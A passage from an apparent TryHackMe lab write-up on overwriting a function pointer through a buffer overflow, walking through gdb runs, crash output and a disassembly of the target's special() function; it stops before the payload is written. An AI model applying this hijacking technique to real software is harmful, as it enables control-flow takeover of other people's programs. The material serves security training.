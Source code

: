 It still doesn't seem to be overflowing any memory, so after a bit of research, thanks to the following [write-up](https://medium.com/@cyberlarry/walkthrough-tryhackme-buffer-overflows-task-7-overwriting-function-pointers-ac1336979261) I found out, that we need to "unset some environment variables in order to use the same memory addresses inside and outside `gdb`:

```
(gdb) set exec-wrapper env -u LINES -u COLUMNS
```

Now, let's try again:

```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-2/func-pointer
AAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0x00007fffffffeb6a in ?? ()
```

No overflow, but we got an `Illegal instruction` message. Let's add one more `A` and see what happens:

```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-2/func-pointer
AAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400041 in ?? ()
```

And we got a segmentation fault with one character overflow `41` (in hex `41` is `A` in ASCII). Now to find out the memory address we need to access to call `special()` function, we need to disassemble it:

```
Dump of assembler code for function special:
   0x0000000000400567 <+0>:     push   %rbp
   0x0000000000400568 <+1>:     mov    %rsp,%rbp
   0x000000000040056b <+4>:     mov    $0x400680,%edi
   0x0000000000400570 <+9>:     callq  0x400460 <puts@plt>
   0x0000000000400575 <+14>:    mov    $0x40069d,%edi
   0x000000000040057a <+19>:    callq  0x400460 <puts@plt>
   0x000000000040057f <+24>:    nop
   0x0000000000400580 <+25>:    pop    %rbp
   0x0000000000400581 <+26>:    retq
End of assembler dump.
```

If we assume that 14 characters overflow the stack into the register with the return address, all we need to do is send 14 characters followed by the memory address of the special function. Let's try the first address from the dump (reversed, because it's little endian):
